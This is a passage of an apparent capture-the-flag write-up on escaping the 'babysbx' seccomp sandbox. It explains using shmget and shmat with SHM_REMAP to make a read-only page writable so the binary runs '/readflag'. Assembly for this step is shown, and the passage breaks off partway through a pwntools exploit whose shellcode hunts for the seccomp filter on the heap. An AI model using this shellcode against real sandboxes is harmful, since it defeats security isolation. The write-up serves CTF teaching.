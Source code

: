 You can also provide a fixed address in `shmaddr` in this case the system will try to map it , and last but not least, if you set the flag `SHM_REMAP` in  `shmflag` :

> SHM_REMAP (Linux-specific) 
>     This flag specifies that the mapping of the segment should replace any existing mapping in the range starting at shmaddr and continuing for the size of the segment.  (Normally, an **EINVAL** error would result if a mapping already exists in this address range.)  In this case, shmaddr must not be NULL.

So it will remap the page at the given address with the protection rights given previously to `shmget`function.

So it will work a bit like `mprotect`, where you can change the protection of an already mapped zone.

So we can remap the read-only segment of the program like this:

```assembly
/* shmget */
   mov edi,1234       /* dumb key, can be any value */
   mov esi,0x400		/* size */
   mov edx,0x3b6     /* IPC_CREATE | 0666  --> read/write access */
   mov eax,29		/* shmget syscall number */
   syscall

   /* remap zone with shmat as rw */
   mov edi,eax		/* identifier returned by shmget */
   mov rsi,r15      /* r15 points to beginning of read-only page containing /bin/id string */
   mov edx, 16384      /* SHM_REMAP flag */
   mov eax,30          /* shmat syscall number */
   syscall
```

------

### 5 - Execute "/readflag" binary

So as we have remap the read-only zone of the binary as `RW`(read+write), now we can simple overwrite "/bin/id" string  and replace it with the "/readflag" string

and we have finished, we have escaped the `babysbx` sandbox. Here is the final exploit.

```assembly
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("babysbx_patched")
host, port = "blackhat.flagyard.com","31288"
p = remote(host,port)

shellc = asm('''
  /* leak heap address */
   movd rax, xmm0
   movabs rbx, 0x0000000200240015
   /* search for seccomp on heap */
search:
   cmp [rax],rbx
   jz ok1
   add rax,8
   jmp search
ok1:
   add rax,0xb4
   mov ebx,dword ptr[rax]
   shl rbx,32
```